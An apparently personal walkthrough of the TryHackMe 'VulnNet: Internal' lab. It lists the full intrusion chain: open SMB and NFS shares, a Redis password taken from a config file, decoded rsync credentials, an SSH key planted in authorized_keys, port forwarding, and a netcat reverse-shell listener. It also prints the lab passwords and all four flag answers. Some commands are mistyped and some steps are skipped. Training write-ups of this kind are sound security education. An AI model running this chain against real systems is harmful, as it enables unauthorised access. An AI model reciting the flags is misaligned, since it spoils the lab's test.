








# TryHackMe Lab 6VulnNet: Internal

     
Task 1  VulnNet: Internal

VulnNet Entertainment is a company that learns from its mistakes. They quickly realized that they can't make a properly secured web application so they gave up on that idea. Instead, they decided to set up internal services for business purposes. As usual, you're tasked to perform a penetration test of their network and report your findings.

Difficulty: Easy/Medium
Operating System: Linux
This machine was designed to be quite the opposite of the previous machines in this series and it focuses on internal services. It's supposed to show you how you can retrieve interesting information and use it to gain system access. Report your findings by submitting the correct flags.

Note: It might take 3-5 minutes for all the services to boot.

Author: MindOverfløw
Discord: MindOverfløw#0420

What is the services flag? (services.txt)

Statred Machine

Ran command `ls` found nothing.

ran `grep`, no luck

ran nmap

`nmap -T4 -A -v 10.10.41.125`

     
smbclient can be exploited.

`smbclient \\10.10.41.125/shares`

no password needed

     
What is the services flag? (services.txt)
 
 Answer-`THM{0a09d51e488f5fa105d8d866a497440a}`
 
What is the internal flag? ("internal flag") 

NFS on port 2049 found, let's mount the NFS fileshare

`sudo mount -t nfs 10.10.41.125: tmp`

tree command not working

ran command `sudo apt install tree`

found redis.conf

ran command cat redis.conf | grep -E "pass"

this gave password to redis server.

password `B65Hx562F@ggAZ@F`

connected to redis with command 

`redis-cli -h 10.10.73.131 -a B65Hx562F@ggAZ@F`

redis not installed

ran command `sudo redis-tools`

ran command `redis-cli -h 10.10.73.131 -a B65Hx562F@ggAZ@F`

ran command `KEYS *`

from prompt `KEYS "internal flag"`

ran command `GET "internal flag"`

What is the internal flag? ("internal flag")

Answer-`THM{ff8e518addbbddb74531a724236a8221}`

ran command GET authlist, failed, a little OSINT on error.

ran command `LRANGE authlist 1 100`

     
opened new terminal to decode base64 to retrieve it's contents.

ran command `echo "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg==" | base64 -d`

     
found rsync data `Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v`

ran command `rsync --list-only rsync://10.10.73.131`

listed files

ran command `sync --list-only rsync://rsync-connect@10.10.73.131/files`

Password`Hcg3HP67@TW@Bc72v`

found sys-internal child directory

ran command `rsync --list-only rsync://rsync-connect@10.10.190.83/files/sys-internal/`

password`Hcg3HP67@TW@Bc72v`

found .ssh key and copied with command `cp ~/.ssh/id_rsa.pub authorized_keys`

     
ran command `rsync rsync://rsync-connect@10.10.73.131/files/sys-internal/*.* /home/kali/tmp/`

failed

researched

connected to ssh ran `ls`

ran command `cat user.txt`

What is the user flag? (user.txt)

Answer-`THM{da7c20696831f253e0afaca8b83c07ab}`

What is the root flag? (root.txt)

ran command `ssh -L 8111:127.0.0.1:8111 sys-internal@10.10.73.131`

now at connect page
     
started netcat listener with command `nc -nlvp 444`

now with reverse shell,  ran command `at /root/root.txt`

Answer-`THM{e8996faea46df09dba5676dd271c60bd}`

 
